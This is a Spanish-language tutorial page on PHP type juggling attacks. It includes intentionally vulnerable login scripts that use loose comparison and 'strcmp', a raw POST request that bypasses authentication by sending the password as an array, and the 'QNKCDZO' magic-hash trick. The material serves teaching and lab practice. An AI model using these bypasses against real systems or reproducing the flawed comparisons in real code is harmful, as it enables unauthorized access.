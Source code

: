 # Type Juggling Attack

Un ataque de **Type Juggling** (o “**cambio de tipo**” en español) es una técnica utilizada en programación para **manipular** el **tipo de dato** de una variable con el fin de engañar a un programa y hacer que éste haga algo que no debería.

La mayoría de los lenguajes de programación utilizan tipos de datos para clasificar la información almacenada en una variable, como enteros, cadenas, flotantes, booleanos, etc. Los programas utilizan estos tipos de datos para realizar operaciones matemáticas, comparaciones y otras tareas específicas. Sin embargo, los atacantes pueden explotar vulnerabilidades en los programas que no validan adecuadamente los tipos de datos que se les proporcionan.

En un ataque de Type Juggling, un atacante manipula los datos de entrada del programa para cambiar el tipo de dato de una variable. Por ejemplo, el atacante podría proporcionar una cadena de caracteres que “se parece” a un número entero, pero que en realidad no lo es. Si el programa no valida adecuadamente el tipo de dato de la variable, podría intentar realizar operaciones matemáticas en esa variable y obtener resultados inesperados.

Un ejemplo común de cómo se puede utilizar un ataque de Type Juggling para burlar la autenticación es en un sistema que utiliza comparaciones de cadena para verificar las contraseñas de los usuarios. En lugar de proporcionar una contraseña válida, el atacante podría proporcionar una cadena que se parece a una contraseña válida, pero que en realidad no lo es.

Por ejemplo, en PHP, una cadena que comienza con un número se convierte automáticamente en un número si se utiliza en una comparación numérica. Por lo tanto, si el atacante proporciona una cadena que comienza con el número **cero** (**0**), como “**00123**“, el programa la convertirá en el número entero **123**.

Aquí se puede ver un ejemplo:\


<figure><img src="../../../.gitbook/assets/ejemplo.png" alt=""><figcaption></figcaption></figure>

Si la contraseña almacenada en el sistema también se almacena como un número entero (en lugar de como una cadena), la comparación de la contraseña del atacante con la contraseña almacenada podría ser exitosa, lo que permitiría al atacante eludir la autenticación y obtener acceso no autorizado al sistema.

### Prueba de concepto

* Iniciar **servicio** de apache2:

```bash
❯ cd /var/www/html
❯ service apache2 start
```

* Crear archivo php que contenga un panel de login básico:

```php
<html>
	<font color="red"<center><h1>Secure Login Page</h1></center></font>
	<hr>
	<body style="background-color:powderblue">
		<center>
			<form method="POST" name"<?php basename($_SERVER['PHP_SELF']); ?>"></center>
				Usuario: <input type="text" name="usuario" id="usuario" size="30"></input>
				&nbsp;
				Password: <input type="password" name="password" id="password" size="30"></input>
				<input type="submit" value="Login"></input>
				<hr>
			</form>
		</center>

		<?php
			$USER = "admin";
			$PASSWORD = "contraseña";
			if(isset($_POST['usuario']) && isset($_POST['password'])){
				if($_POST['usuario'] == $USER){
					if(strcmp($_POST['password'], $PASSWORD) == 0){
						echo "[+] Acesso permitido";
					} else {
						echo "[!] Acesso denegado, la contraseña es incorrecta.";
					}
				} else {
					echo "[!] Acesso denegado, el usuario es incorrecto.";
				}
			}
		?>

	</body>
</html>
```

* Y enviando la peticion por POST cambiando en el campo password el tipo de dato a un **array\[]** podemos llegar a burlar el panel:

```
POST /index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://localhost/index.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Origin: http://localhost
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

usuario=admin&password[]=
```

* Otro ejemplo seria a partir del hash pongamos una contraseña que de 0:

```php
<html>
	<font color="red"<center><h1>Secure Login Page</h1></center></font>
	<hr>
	<body style="background-color:powderblue">
		<center>
			<form method="POST" name"<?php basename($_SERVER['PHP_SELF']); ?>"></center>
				Usuario: <input type="text" name="usuario" id="usuario" size="30"></input>
				&nbsp;
				Password: <input type="password" name="password" id="password" size="30"></input>
				<input type="submit" value="Login"></input>
				<hr>
			</form>
		</center>

		<?php
			$USER = "admin";
			$PASSWORD = 0e111111451993494058024219903391;
			if(!empty($_POST['usuario']) && !empty($_POST['password'])){
				$password_input = $_POST['password'];
				$password_input = md5($password_input);
				if($_POST['usuario'] == $USER){
					if($password_input == $PASSWORD){
						echo "[+] Acesso permitido";
					} else {
						echo "[!] Acesso denegado, la contraseña es incorrecta.";
					}
				} else {
					echo "[!] Acesso denegado, el usuario es incorrecto.";
				}
			}
		?>
	</body>
</html>
```

0e111111451993494058024219903391 == 0\
QNKCDZO == 0

0e111111451993494058024219903391 == QNKCDZO **➜** 0
